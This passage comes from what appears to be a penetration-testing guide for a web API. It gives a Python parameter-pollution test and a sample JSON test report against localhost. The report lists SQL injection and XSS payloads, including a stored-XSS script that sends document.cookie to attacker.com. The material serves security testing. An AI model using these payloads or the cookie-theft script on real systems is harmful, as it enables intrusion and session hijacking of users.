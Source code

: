 #### **Parameter Pollution Test**
```python
def test_parameter_pollution():
    """Test API parameter pollution attacks"""
    pollution_payloads = [
        {"param": ["value1", "value2"]},
        {"param": "value1&param=value2"},
        {"param": "value1;param=value2"}
    ]
    
    vulnerable_endpoints = []
    
    for payload in pollution_payloads:
        response = session.get(
            f"{base_url}/api/search",
            params=payload
        )
        
        if response.status_code == 200:
            # Check if multiple parameters were processed
            if "value1" in response.text and "value2" in response.text:
                vulnerable_endpoints.append("parameter_pollution")
    
    return vulnerable_endpoints
```

## 📋 **Test Reporting**

### **Comprehensive Penetration Test Report**
```json
{
  "timestamp": "2024-12-01T10:00:00Z",
  "base_url": "http://localhost:5000",
  "sql_injection": {
    "basic": {
      "vulnerable_endpoints": ["/api/search", "/api/login"],
      "successful_payloads": ["' OR '1'='1", "' OR 1=1 --"],
      "error_messages": ["sql syntax", "mysql error"]
    },
    "blind": {
      "vulnerable_endpoints": ["/api/search"],
      "successful_payloads": ["' AND (SELECT COUNT(*) FROM users) > 0 --"],
      "response_times": [5.2, 5.1]
    }
  },
  "xss": {
    "reflected": {
      "vulnerable_endpoints": ["/api/comment"],
      "successful_payloads": ["<script>alert('XSS')</script>"],
      "reflected_content": [
        {
          "endpoint": "/api/comment",
          "payload": "<script>alert('XSS')</script>",
          "response_preview": "<div><script>alert('XSS')</script></div>"
        }
      ]
    },
    "stored": {
      "vulnerable_endpoints": ["/api/forum/post"],
      "successful_payloads": ["<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>"],
      "stored_content": [
        {
```